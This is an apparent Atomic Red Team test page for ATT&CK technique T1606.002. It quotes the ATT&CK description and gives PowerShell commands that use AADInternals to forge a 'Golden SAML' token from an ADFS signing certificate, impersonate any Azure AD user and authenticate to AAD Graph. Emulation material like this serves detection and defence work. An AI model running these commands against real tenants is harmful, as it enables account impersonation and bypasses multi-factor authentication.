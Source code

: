 # T1606.002 - Forge Web Credentials: SAML token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1606/002)
<blockquote>An adversary may forge SAML tokens with any permissions claims and lifetimes if they possess a valid SAML token-signing certificate.(Citation: Microsoft SolarWinds Steps) The default lifetime of a SAML token is one hour, but the validity period can be specified in the <code>NotOnOrAfter</code> value of the <code>conditions ...</code> element in a token. This value can be changed using the <code>AccessTokenLifetime</code> in a <code>LifetimeTokenPolicy</code>.(Citation: Microsoft SAML Token Lifetimes) Forged SAML tokens enable adversaries to authenticate across services that use SAML 2.0 as an SSO (single sign-on) mechanism.(Citation: Cyberark Golden SAML)

An adversary may utilize [Private Keys](https://attack.mitre.org/techniques/T1552/004) to compromise an organization's token-signing certificate to create forged SAML tokens. If the adversary has sufficient permissions to establish a new federation trust with their own Active Directory Federation Services (AD FS) server, they may instead generate their own trusted token-signing certificate.(Citation: Microsoft SolarWinds Customer Guidance) This differs from [Steal Application Access Token](https://attack.mitre.org/techniques/T1528) and other similar behaviors in that the tokens are new and forged by the adversary, rather than stolen or intercepted from legitimate users.

An adversary may gain administrative Azure AD privileges if a SAML token is forged which claims to represent a highly privileged account. This may lead to [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550), which may bypass multi-factor and other authentication protection mechanisms.(Citation: Microsoft SolarWinds Customer Guidance)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Golden SAML](#atomic-test-1---golden-saml)


<br/>

## Atomic Test #1 - Golden SAML
Forge a "Golden SAML" token which allows to impersonate any Azure AD user, and authenticate to AADGraph (as a proof). 
You will need the ADFS token signing certificate (see T1552.004 to export it).
More info here : https://o365blog.com/post/adfs/

**Supported Platforms:** Azure-ad


**auto_generated_guid:** b16a03bc-1089-4dcc-ad98-30fe8f3a2b31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| certificate_path | Token signing certificate path. See T1552.004 to export it | Path | .&#92;ADFS_signing.pfx|
| immutable_id | ImmutableId of the targeted user. It can be obtained with AzureAD powershell module; $(Get-AzureADUser -SearchString "username").ImmutableId | String | aehgdqBTZV50DKQZmNJ8mg==|
| issuer_uri | Issuer URI of the ADFS service | String | http://contoso.com/adfs/services/trust/|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
$saml = New-AADIntSAMLToken -ImmutableID "#{immutable_id}" -PfxFileName "#{certificate_path}" -Issuer "#{issuer_uri}"
$conn = Get-AADIntAccessTokenForAADGraph -SAMLToken $saml -SaveToCache
if ($conn) { Write-Host "`nSuccessfully connected as $($conn.User)" } else { Write-Host "`nThe connection failed" }
Write-Host "End of Golden SAML"
```




#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
